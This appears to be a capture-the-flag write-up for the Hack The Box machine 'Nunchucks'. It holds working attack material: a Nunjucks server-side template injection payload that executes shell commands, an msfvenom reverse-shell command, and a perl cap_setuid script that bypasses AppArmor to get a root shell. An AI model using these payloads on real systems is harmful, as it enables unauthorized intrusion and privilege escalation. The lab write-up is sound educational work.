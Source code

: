# Nunchucks Writeup

objetives :
* user flag
* root flag

---

## User.txt

### Basic Enumeration

the ICMP TTL indicates that it's a Linux Machine  

nmap :
* p22	OpenSSH 8.2p1
* p80	nginx 1.18.0 (Ubuntu)
* p443	nginx 1.18.0 (Ubuntu)

the port 80 server is just a redirection to port 443 server

### Web

having a quick look at the page it seems like there is a signup and login page but neither of them are working  
we try directory enumeration, its a little tricky cause every request gives a 200 status, so we have to filter by size  
we don't find any interesting directory  
by the way, while doing all of this we see that the page is using **Node.js**

there is a mail on the main page whit the domain *nunchucks.htb*  
that makes me think that there might be a hidden subdomain  
we use **ffuf** for subdomain enumeration and we find *store.nunchucks.htb*  

### Store

the first thing we see is an textbox asking for an email  
that sends the email to */api/submit*, and we get a response where the email of your input is sent back to you

i get to a point where i can't find anything and i check HTB to see the tags of the machine  
we see the tag **SSTI**, that stands for Server Side Template Injection  
i didn't even know about this vulnerability, so i search for it and i try various payloads  
looks like sending *{{7\*3}}* to */api/submit* works because it responds you with 21  

### Exploiting SSTI 

we try to know which template Node is using by trying payloads on this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)  
we come to the conclusion that its using **NUNJUCKS**

after a lot of tries, i find a payload that actually works :  
```
{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"whoami\")')()}}
```
the reason why i needed a lot of tries is because the payload i found had single quotes instead of backslash + double quotes  
that is, `'child_process'` insted of `\"child_process\"`

### Upgrading RCE to a Reverse Shell

the most common reverse shell payloads are not working for me, so i though about creating a reverse shell executable with **msfvenom**  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`  
now i create a server on my machine with Python and use the **SSTI** and the **curl** command to upload it to the target machine  
i give execution permisions to the file with **chmod** and then set a **netcat listener**  
now i execute the file... it works !!! we have a Reverse Shell and user.txt

---

## Root.txt

we search binaries capabilities and we find that **perl** has the following capabilitie : *cap_setuid+ep*  
there is an entry in GTFOBins to exploit this, the payload is 
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
it doesn't work, but it works with *whoami* instead of */bin/sh*... what is happening ?  

this kind of behaviour in a program reminds me of the security module **AppArmor**  
so we find files containing the word *AppArmor*  
there are plenty of them !! we find an interesting folder at */etc/apparmor.d* whit a file called *usr.bin.perl*  
it seems that is denying us the acces to */root*  
is there any way to bypass that ? time to ask Google !!  

there is a pretty interesting bug about this topic on [this link](https://bugs.launchpad.net/apparmor/+bug/1911431)  
it says that you can bypass it with a script starting with a **shebang line** (#!/usr/bin/perl)  
lets try it !! we write this script called *shell.perl*
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
we give execution permission to it, we execute it with ```./shell.perl``` and voilá !!! there you go  
enjoy your root acces !


